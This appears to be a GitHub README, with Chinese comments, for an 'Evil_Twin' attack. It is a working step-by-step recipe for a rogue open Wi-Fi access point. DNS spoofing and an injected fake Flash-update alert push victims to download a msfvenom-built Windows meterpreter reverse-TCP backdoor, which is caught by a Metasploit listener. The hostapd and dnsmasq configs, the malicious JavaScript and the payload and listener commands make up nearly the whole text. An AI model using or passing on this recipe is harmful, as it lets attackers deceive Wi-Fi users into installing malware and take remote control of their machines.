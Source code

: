 # Evil_Twin

# 安装:  
apt install hostapd  

apt install dnsmasq  

# //配置网卡规则  
iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE  
iptables --append FORWARD --in-interface wlan1mon -j ACCEPT    
//设置网关IP以及子网掩码  
ifconfig wlan1mon up 192.168.1.1 netmask 255.255.255.0  
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1  
# //开启流量转发  
echo 1 > /proc/sys/net/ipv4/ip_forward  

# dnsmasq.conf  
interface=wlan1mon  
dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h  
dhcp-option=3, 192.168.1.1  
dhcp-option=6, 192.168.1.1  
server=8.8.8.8  
address=/baidu.com/192.168.1.1  
log-queries  
log-dhcp  
listen-address=127.0.0.1  

# hostapd.conf:  
interface=wlan1mon  
driver=nl80211  
ssid=freewifi  
hw_mode=g  
channel=6  
macaddr_acl=0  
ignore_broadcast_ssid=0  

# index.html:  
<head>  
<meta charset='utf-8'>  
<script src="http://192.168.1.1/new.js"> </script>  
</head>  

# new.js:  
window.alert = function(name){  
    var iframe = document. createElement("IFRAME");  
    iframe.style.display="none";  
    iframe.setAttribute("src",'data:text/plain,');  
    document. documentElement.appendChild(iframe);  
    window.frames [0].window.alert(name);  
    iframe.parentNode.removeChild(iframe);  
    }  
    alert( "您的FLASH版本过低，尝试升级后访问该页面! ");  
    window. location.href="http://192.168.1.1/flash";  


# 下载flash模板  
git clone https://github.com/r00tSe7en/Fake-flash.cn  

 
#生成后门:  
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o /root/awa.exe  

service apache2 start //启动web服务器  
hostapd hostapd.conf //创建wifi  
dnsmasq -C dnsmasq.conf -d //dns服务  
python3 -m http.server 8080 //后门下载  

msfconsole //启动  
use exploit/multi/handler    //使用监听  
set payload windows/x64/meterpreter/reverse_tcp   //设置payload  
set lhost 192.168.1.1 //设置IP  
set lport 4444  //设置端口  
run //启动  


# iptables出现问题解决方法:https://zhuanlan.zhihu.com/p/118632728  
